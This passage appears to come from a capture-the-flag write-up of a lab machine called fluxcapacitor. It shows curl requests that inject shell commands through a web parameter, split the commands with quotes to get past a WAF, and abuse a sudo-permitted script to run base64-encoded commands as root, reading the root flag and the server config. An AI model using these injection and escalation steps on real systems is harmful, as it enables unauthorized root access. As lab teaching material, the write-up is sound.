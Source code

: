     
    
    root@kali# curl "10.10.10.69/sync?opt=' su''do -l'"
    Matching Defaults entries for nobody on fluxcapacitor:
        env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
    
    User nobody may run the following commands on fluxcapacitor:
        (ALL) ALL
        (root) NOPASSWD: /home/themiddle/.monit
    bash: -c: option requires an argument
    
    root@kali# curl "10.10.10.69/sync?opt=' c''at /home/themiddle/.monit'"
    #!/bin/bash
    
    if [ "$1" == "cmd" ]; then
            echo "Trying to execute ${2}"
            CMD=$(echo -n ${2} | base64 -d)
            bash -c "$CMD"
    fi
    bash: -c: option requires an argument
    

So it looks like the current user can run `sudo /home/themiddle/.monit cmd
[base64 string]`, and that base64 string will be decodeed and run as root!

    
    
    root@kali# curl "10.10.10.69/sync?opt=' su''do /home/themiddle/.monit cmd $(echo cat /root/root.txt | base64)'"
    Trying to execute Y2F0IC9yb290L3Jvb3QudHh0Cg==
    [redacted]
    bash: -c: option requires an argument
    

## Other things to pull

Using this access, pull the webserver configuration:

    
    
    root@kali# curl "10.10.10.69/sync?opt=' sudo /home/themiddle/.monit cmd $(echo cat /usr/local/o*/n*/conf/ngin*f| base64)'" > nginx.conf
    

This defines the WAF and the functionality of the application:

    
    
    ...
    more_clear_headers 'Server';
    add_header Server 'SuperWAF';
    
    modsecurity on;
    location /sync {
     default_type 'text/plain';
    
    modsecurity_rules '
     SecDefaultAction "phase:1,log,auditlog,deny,status:403"
     SecDefaultAction "phase:2,log,auditlog,deny,status:403"
    